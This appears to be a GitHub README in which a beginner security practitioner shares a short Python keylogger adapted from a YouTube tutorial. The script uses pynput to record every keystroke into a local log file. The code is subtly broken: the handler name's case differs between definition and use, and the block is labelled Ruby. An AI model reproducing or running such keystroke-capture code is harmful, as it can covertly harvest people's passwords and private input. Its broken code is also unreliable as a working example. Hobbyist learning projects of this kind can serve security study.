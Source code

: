 Hi I'm Xark-Lymen 
A cyber security practioner (newbie) from India trying out different projects on hand to increase my experience.
This is a keylogger referenced from Shaun Halverson Video on YT 

# CODE

```Ruby

from pynput import keyboard

def keypressed(key):
    print(str(key))
    with open("Logfile.txt", 'a') as logkey:
        try:
            char = key.char
            logkey.write(char)
        except: 
            print("error getting char")


if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()

```
